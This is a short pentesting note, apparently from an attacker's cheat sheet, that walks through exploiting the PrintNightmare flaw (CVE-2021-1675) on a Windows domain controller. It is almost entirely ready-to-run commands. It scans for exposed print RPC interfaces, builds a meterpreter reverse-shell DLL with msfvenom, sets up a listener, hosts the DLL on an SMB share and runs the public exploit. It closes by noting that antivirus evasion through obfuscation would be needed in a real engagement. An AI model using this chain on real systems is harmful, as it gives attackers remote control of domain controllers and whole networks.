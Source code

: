 Resources:
- cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675
- calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675

# Scan for vulnerable hosts

Scan DC to see if its vulnerable:
```bash
rpcdump.py @<dc-ip> | egrep 'MS-RPRN|MS-PAR'
```

# Exploitation

Steps:
1. Create a reverse_tcp DLL with *msfvenom*
2. Setup a (meterpreter) listener
3. 2. Host the DLL
4. Run the exploit

Create a reverse_tcp DLL with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f dll > shell.dll
```

Setup listener:
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport <port>
run
```

Host the DLL:
```bash
smbserver.py <share-name> <dir> -smb2support
smbserver.py share `pwd` -smb2support
```

Run the exploit:
```bash
python3 CVE-2021-1675.py <AD-FQDN>/<domain-user>:<password>@<dc-ip> '\\<attacker-ip>\share\shell.dll'
```

>[!Note] Windows Defender
>Windows Defender blocks the DLL created with msfvenom. In a real engagement we would need to obfuscate the DLL.